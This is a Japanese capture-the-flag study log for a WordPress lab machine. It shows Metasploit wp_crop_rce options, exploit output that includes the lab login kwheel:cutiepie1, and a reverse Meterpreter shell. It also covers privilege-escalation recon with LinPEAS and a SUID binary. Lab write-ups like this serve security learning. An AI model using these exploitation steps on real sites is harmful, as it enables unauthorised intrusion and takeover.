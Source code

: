 ```sh
   RHOSTS     blog.thm         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host
```

結果として、www-dataの権限を取得できた。
```sh
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.17.30.207:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.172.46
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.17.30.207:4444 -> 10.10.172.46:45924) at 2025-04-26 10:53:17 +0900

meterpreter > getuid
Server username: www-data
```

### 権限昇格
adminなどの強い権限を取得するために脆弱性を調査する。
#### LinPEAS
ターゲットサーバーへの初期侵入が完了後、実行することで権限昇格できそうなミスを探すためのツール。

#### LinPEASをターゲットへアップロード
取得方法はローカルマシーンでLinPEASをDLしておいて、ローカルでサーバーを立てる。その後進入済みのマシーンからローカルマシーンに対してDLするような処理で行う。

#### LinPEASの実行
実行すると実行権限に`s`がついているコマンドを発見。
```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                              
                      ╚════════════════════════════════════╝                       
~~~
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary!)
~~~
```
中身としては、現実味がないので割愛するが、このコマンドの脆弱性を突いてrootに昇格。

### Day7勉強したこと
- wordpressは有名すぎてスキャンや辞書攻撃のツールが簡単に利用できる
- WordPressなどのアプリもバージョンが古いままだと脆弱性があるので、msfconsoleなどですぐに攻撃できてしまう
- 小さな権限ユーザーでも侵入されると、`LinPEAS`などで権限昇格できないかすぐに調査されてしまう